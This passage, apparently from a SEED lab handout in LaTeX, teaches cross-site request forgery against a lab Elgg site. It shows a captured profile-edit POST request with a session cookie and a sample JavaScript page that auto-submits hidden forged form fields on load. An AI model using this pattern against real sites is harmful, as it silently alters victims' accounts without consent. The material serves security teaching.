 \begin{lstlisting}
http://www.seed-server.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.seed-server.com/profile/elgguser1/edit
Cookie: Elgg=p0dci8baqrl4i2ipv2mio3po05
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 642
__elgg_token=fc98784a9fbd02b68682bbb0e75b428b&__elgg_ts=1403464813  (*@\ding{80}@*) 
&name=elgguser1&description=%3Cp%3Iamelgguser1%3C%2Fp%3E
&accesslevel%5Bdescription%5D=2&briefdescription= Iamelgguser1
&accesslevel%5Bbriefdescription%5D=2&location=US
......                                                              (*@\ding{80}@*)
\end{lstlisting}


After understanding the structure of the request, you need to 
be able to generate the request from your attacking web page
using JavaScript code. 
To help you write such a JavaScript program,  we provide a 
sample code in the following code fence. You can use this sample code to construct your malicious web site
for the CSRF attacks. This is only a sample code, and you need to modify it to 
make it work for your attack.


\begin{lstlisting}
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers. 
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' 
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");
	 
    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";
	 
    // Append the form to the current page.
    document.body.appendChild(p);
	 
    // Submit the form
    p.submit();
}

	
// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}


